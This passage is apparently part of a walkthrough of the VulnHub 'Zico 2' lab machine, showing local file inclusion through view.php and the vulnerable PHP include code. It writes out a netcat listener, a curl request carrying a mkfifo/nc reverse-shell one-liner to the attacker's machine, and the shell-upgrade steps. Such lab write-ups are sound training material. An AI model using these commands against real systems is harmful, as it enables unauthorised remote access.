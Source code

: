 
Cool now that we have our table created and we know we've got LFI, possibly code execution we go to `/view.php?page=../../usr/databases/rs.php&cmd=ls`
![11.png](/assets/images/posts/zico-2-vulnhub-walkthrough/11.png)

... and it works. 

### Low privilege shell
Steps. Start the listener
```
# nc -lnvp 1234
```
In another window:
```
# curl -s http://192.168.109.143/view.php --data-urlencode "page=../../usr/databases/rs.php&cmd=rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.109.140 1234 >/tmp/f"

```
Moving into the Kali VM.
```
root@marksmith:~# nc -lnvp 1234
listening on [any] 1234 ...
connect to [192.168.109.140] from (UNKNOWN) [192.168.109.143] 44106
/bin/sh: 0: can't access tty; job control turned off
$ which python
/usr/bin/python
$ python -c "import pty;pty.spawn('/bin/bash')"

... here we do Ctrl+z
www-data@zico:/var/www$ ^Z
[1]+  Stopped                 nc -lnvp 1234
root@marksmith:~# stty raw -echo
... then fg

www-data@zico:/var/www$  stty rows 33  cols 133
```
We have a look at `view.php`; this is where the vulnerability lies. Since it's not appending any extension to the [Param] we could bruteforce for other files.

```
www-data@zico:/var/www$ cat view.php
<?php
        $page =$_GET['page'];
        include("/var/www/".$page);
?>
```


[1]: https://www.vulnhub.com/entry/billu-b0x-2,238/
[2]: https://twitter.com/@rafasantos5
[3]: https://www.vulnhub.com/
[4]: https://github.com/21y4d/nmapAutomator
